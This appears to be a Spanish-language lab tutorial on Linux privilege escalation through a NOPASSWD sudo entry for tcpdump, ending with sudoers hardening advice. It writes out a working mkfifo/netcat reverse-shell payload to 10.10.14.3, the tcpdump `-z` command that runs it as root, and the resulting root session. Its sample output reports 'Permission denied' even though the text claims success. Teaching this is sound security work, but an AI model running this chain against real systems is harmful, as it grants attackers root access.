Los privilegios de `sudo` pueden ser otorgados a una cuenta, permitiendo que la cuenta ejecute ciertos comandos en el contexto de root (o de otra cuenta) sin tener que cambiar de usuario o otorgar privilegios excesivos. Cuando se emite el comando `sudo`, el sistema verificará si el usuario que emite el comando tiene los derechos apropiados, según lo configurado en **/etc/sudoers**. Al acceder a un sistema, siempre debemos verificar si el usuario actual tiene algún privilegio de sudo escribiendo `sudo -l`. A veces necesitaremos conocer la contraseña del usuario para listar sus derechos de `sudo`, pero cualquier entrada de derechos con la opción `NOPASSWD` puede ser vista sin ingresar una contraseña.

```r
htb_student@NIX02:~$ sudo -l

Matching Defaults entries for sysadm on NIX02:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User sysadm may run the following commands on NIX02:
    (root) NOPASSWD: /usr/sbin/tcpdump
```

Es fácil configurar esto incorrectamente. Por ejemplo, se le puede otorgar a un usuario permisos a nivel root sin requerir una contraseña. O la línea de comandos permitida podría especificarse de manera demasiado laxa, permitiéndonos ejecutar un programa de una manera no intencionada, resultando en una escalada de privilegios. Por ejemplo, si el archivo sudoers se edita para otorgar a un usuario el derecho a ejecutar un comando como `tcpdump` según la siguiente entrada en el archivo sudoers: `(ALL) NOPASSWD: /usr/sbin/tcpdump`, un atacante podría aprovechar esto para usar la opción **postrotate-command**.

```r
htb_student@NIX02:~$ man tcpdump

<SNIP> 
-z postrorate-command              

Used in conjunction with the -C or -G options, this will make `tcpdump` run " postrotate-command file " where the file is the savefile being closed after each rotation. For example, specifying -z gzip or -z bzip2 will compress each savefile using gzip or bzip2.
```

Al especificar la flag `-z`, un atacante podría usar `tcpdump` para ejecutar un script de shell, obtener una reverse shell como el usuario root o ejecutar otros comandos privilegiados. Por ejemplo, un atacante podría crear el script de shell `.test` que contiene una reverse shell y ejecutarlo de la siguiente manera:

```r
htb_student@NIX02:~$ sudo tcpdump -ln -i eth0 -w /dev/null -W 1 -G 1 -z /tmp/.test -Z root
```

Vamos a probar esto. Primero, crea un archivo para ejecutar con el `postrotate-command`, agregando una simple línea de comando de reverse shell.

```r
htb_student@NIX02:~$ cat /tmp/.test

rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.3 443 >/tmp/f
```

A continuación, inicia un listener de `netcat` en nuestra máquina atacante y ejecuta `tcpdump` como root con el `postrotate-command`. Si todo sale según lo planeado, recibiremos una conexión de reverse shell como root.

```r
htb_student@NIX02:~$ sudo /usr/sbin/tcpdump -ln -i ens192 -w /dev/null -W 1 -G 1 -z /tmp/.test -Z root

dropped privs to root
tcpdump: listening on ens192, link-type EN10MB (Ethernet), capture size 262144 bytes
Maximum file limit reached: 1
1 packet captured
6 packets received by filter
compress_savefile: execlp(/tmp/.test, /dev/null) failed: Permission denied
0 packets dropped by kernel
```

Recibimos una shell de root casi al instante.

```r
nc -lnvp 443

listening on [any] 443 ...
connect to [10.10.14.3] from (UNKNOWN) [10.129.2.12] 38938
bash: cannot set terminal process group (10797): Inappropriate ioctl for device
bash: no job control in this shell

root@NIX02:~# id && hostname               
id && hostname
uid=0(root) gid=0(root) groups=0(root)
NIX02
```


[AppArmor](https://wiki.ubuntu.com/AppArmor) en distribuciones más recientes ha predefinido los comandos utilizados con el `postrotate-command`, previniendo efectivamente la ejecución de comandos. Dos mejores prácticas que siempre deben considerarse al provisionar derechos de `sudo`:

| 1.  | Siempre especificar la ruta absoluta a cualquier binario listado en la entrada del archivo `sudoers`. De lo contrario, un atacante podría aprovechar el abuso de PATH (que veremos en la siguiente sección) para crear un binario malicioso que se ejecutará cuando se ejecute el comando (por ejemplo, si la entrada de `sudoers` especifica `cat` en lugar de `/bin/cat`, esto podría ser abusado).<br> |
| --- | --------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| 2.  | Otorgar derechos de `sudo` con moderación y basándose en el principio de privilegio mínimo. ¿Necesita el usuario derechos completos de `sudo`? ¿Pueden realizar su trabajo con una o dos entradas en el archivo `sudoers`? Limitar los comandos privilegiados que un usuario puede ejecutar reducirá en gran medida la probabilidad de una escalada de privilegios exitosa.                               |
